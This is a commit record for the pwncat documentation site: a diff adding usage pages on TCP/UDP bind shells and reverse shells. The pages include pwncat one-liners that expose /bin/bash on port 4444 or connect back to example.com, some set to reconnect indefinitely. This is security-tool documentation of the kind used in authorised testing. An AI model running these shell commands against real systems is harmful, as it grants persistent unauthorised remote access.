

Before and after one commit to cytopia/pwncat, a Sphinx documentation site: the page built from share/doc/index.rst, in a window 1280 px wide and 1358 px high. Shown: the whole window at 83% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add usage documentation

```diff
--- a/share/doc/index.rst
+++ b/share/doc/index.rst
@@ -24,6 +24,13 @@
    usage
 
 .. toctree::
+   :caption: Usage
+   :maxdepth: 2
+
+   usage/reverse-shell
+   usage/bind-shell
+
+.. toctree::
    :caption: Features
    :maxdepth: 2
 
--- /dev/null
+++ b/share/doc/usage/bind-shell.rst
@@ -0,0 +1,30 @@
+**********
+Bind Shell
+**********
+
+
+TCP Bind shell
+==============
+
+Default TCP bind shell listening on ``:4444`` which behaves exactly as ``nc``.
+
+.. code-block:: bash
+
+   pwncat -l -e '/bin/bash' 4444
+
+
+The following TCP bind shell will re-accept new clients as soon as a client has diconnected
+
+.. code-block:: bash
+
+   pwncat -l -e '/bin/bash' 4444 -k
+
+
+UDP Bind shell
+==============
+
+Default UDP bind shell listening on ``:4444`` which behaves exactly as ``nc``.
+
+.. code-block:: bash
+
+   pwncat -l -e '/bin/bash' 4444 -u
--- /dev/null
+++ b/share/doc/usage/reverse-shell.rst
@@ -0,0 +1,37 @@
+*************
+Reverse Shell
+*************
+
+
+TCP Reverse shell
+=================
+
+Default TCP reverse shell connecting to ``example.com:4444`` which behaves exactly as ``nc``.
+
+.. code-block:: bash
+
+   pwncat -e '/bin/bash' example.com 4444
+
+
+The following is a Ctrl+c proof TCP reverse shell. If you stop your local listener, the reverse shell will automatically connect back to you indefinitely.
+
+.. code-block:: bash
+
+   pwncat -e '/bin/bash' example.com 4444 --reconn --recon-wait 1
+
+
+UDP Reverse shell
+=================
+
+Default UDP reverse shell which behaves exactly as ``nc``.
+
+.. code-block:: bash
+
+   pwncat -e '/bin/bash' example.com 4444 -u
+
+
+The following is a Ctrl+c proof UDP reverse shell. If you stop your local listener, the reverse shell will automatically connect back to you indefinitely.
+
+.. code-block:: bash
+
+   pwncat -e '/bin/bash' example.com 4444 -u --ping-intvl 1
```
